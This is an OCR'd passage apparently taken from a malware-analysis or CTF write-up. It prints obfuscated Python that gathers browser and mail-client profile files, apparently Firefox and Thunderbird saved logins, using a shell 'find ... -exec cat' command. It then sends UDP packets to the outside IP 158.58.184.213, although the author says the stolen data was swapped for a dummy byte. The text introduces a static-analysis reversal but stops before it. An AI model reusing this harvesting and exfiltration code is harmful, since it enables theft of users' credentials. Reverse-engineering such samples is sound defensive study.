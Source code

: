 ```  
   ether = -1  
   if(poison[ether] == adventure):  
       cat = "cat"  
       buckler = adventure + "home" + adventure + gods + adventure + poison  
       lightning.append(bytes(buckler, "ascii"))  
       acid = "find " + buckler + " -type f -exec " + cat + " {} + > " + tome  
       os.system(acid)  
       spell = open(tome, "rb")  
       ate = spell.read()  
       spell.close()  
       lightning.append(ate)

def circle(viciousMockery):  
   ether = 0  
   roc = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)  
   while(ether < 1337):  
       ether = ether + 1  
   for elf in lightning:  
       drow = bytes('0', "ascii") #I remove the data, but you REALLY should run this in a sandboxed environment  
       roc.sendto(drow, ("158.58.184.213", ether)) #this is not a nice IP, be careful what you send here

def makesoul(orb):  
   soul = []  
   litch = soulMore(orb)  
   soul.append(litch)  
   soul.append(soul[0].lower())  
   litch = swords()  
   soul[0] = litch + "Ice" + "weasel"  
   soul[0] = soul[0] + adventure  
   soul[1] = soul[1] + chr(125)  
   soul.append(litch + "Thunder" + "bird" + adventure)  
   return soul

def soulMore(craft):  
   ether = 0  
   vampire = ""  
   eldritch = ["auto", "fill", craft, "word"]  
   eldritch[ether] = eldritch[ether] + eldritch[ether + 1]  
   ether = ether + 1  
   eldritch[ether] = eldritch[ether + ether] + eldritch[ether + ether + ether]  
   eldritch[len(eldritch) - ether] = "NEVER"  
   eldritch[len(eldritch) - 2] = "use"  
   eldritch = eldritch[::-1]  
   for martial in eldritch:  
       vampire = vampire + '_'  
       vampire = vampire + martial  
   return vampire

def swords():  
   ether = -1  
   return chr(46) + lightning[ether + 1][4:6][::ether] + "zilla" + adventure

main()  
```  
It is an obfuscated Python "malware"; looks like it does data exfiltration,
sending data to 158.58.184.213. Let's reverse it by doing static analysis.
